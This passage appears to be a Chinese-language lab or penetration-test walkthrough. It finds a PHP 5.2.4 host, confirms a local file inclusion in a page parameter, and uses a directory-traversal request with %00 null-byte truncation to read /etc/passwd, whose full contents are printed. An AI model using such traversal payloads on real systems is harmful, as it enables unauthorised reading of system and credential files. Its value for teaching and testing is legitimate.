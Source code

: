 http://101.1.0.166/info.php 是 phpinfo 页面，看到 php 的版本是 5.2.4 比较老，php 版本<5.3.4，可能存在截断。看到 web root 是 /var/www/html

在 80 的默认首页的菜单上，看到这样的链接 http://101.1.0.166/index.php?page=about 可能存在 LFI，进行修改，看看什么结果：

```
http://101.1.0.166/index.php?page=/etc/passwd

include_once(inc//etc/passwd.php)
```

可以看到是 page 进行了拼接，前面加了 inc/ , 结尾加了.php 后缀，让我们尝试%00 截断：

```
http://101.1.0.166/index.php?page=../../../../../../../../etc/passwd%00

root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
avahi:x:499:499:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
openvpn:x:498:497:OpenVPN:/etc/openvpn:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
torrent:x:497:496:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash

patrick:x:500:500:Patrick Fair:/home/patrick:/bin/bash
jennifer:x:501:501:Jennifer Sea:/home/jennifer:/bin/bash
andy:x:502:502:Andrew Carp:/home/andy:/bin/bash
loren:x:503:503:Loren Felt:/home/loren:/bin/bash
amy:x:504:504:Amy Pendelton:/home/amy:/bin/bash
```
